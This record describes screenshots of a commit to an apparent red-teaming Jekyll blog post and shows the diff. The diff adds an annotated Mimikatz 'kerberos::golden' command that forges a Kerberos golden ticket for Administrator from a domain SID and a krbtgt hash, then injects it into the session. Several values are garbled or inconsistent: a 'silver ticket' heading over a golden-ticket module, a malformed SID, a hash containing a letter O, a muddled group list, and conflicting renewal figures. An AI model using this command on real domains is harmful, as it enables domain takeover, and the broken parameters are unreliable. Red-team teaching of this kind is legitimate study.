

Before and after one commit to NoRed0x/NoRed0x.github.io, a Jekyll site: the page built from _posts/Red-Teaming/2021-07-18- Kerberos-golden-Ticket.md, in a window 1280 px wide and 900 px high, scrolled down 584 px. Shown: the top 894 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; before the commit the page ends 1313 px from its top, so only the background shows below that.

Commit message:
Update 2021-07-18- Kerberos-golden-Ticket.md

````diff
--- a/_posts/Red-Teaming/2021-07-18- Kerberos-golden-Ticket.md
+++ b/_posts/Red-Teaming/2021-07-18- Kerberos-golden-Ticket.md
@@ -14,3 +14,17 @@ toc: true
 <img src="/img/silver/sid.PNG" alt="Getting-gz" width="800" height="150">
 
 ## Create the silver ticket
+
+
+```
+kerberos::golden  ## Name of the module
+/user:Administrator  ## username of which the TGT is generated
+/domain:karim.net  ## Domain
+/sid:5-1-5-21-268341927-4156871508- 1792461683  ## SID of the domain
+/krbtgt:a9b30e5bOdc865eadcea9411e4ade72d   NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys.
+/id:500 /groups:512 Optional User RID (default 500) and Group default 513 512 520 518 519)
+/ptt  ## Injects the ticket in current PowerShell process ,no need to save the ticket on disk
+/startoffset:0  ##Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future.
+/endin:600  ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes
+/renewmax:10080  ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800
+```
````
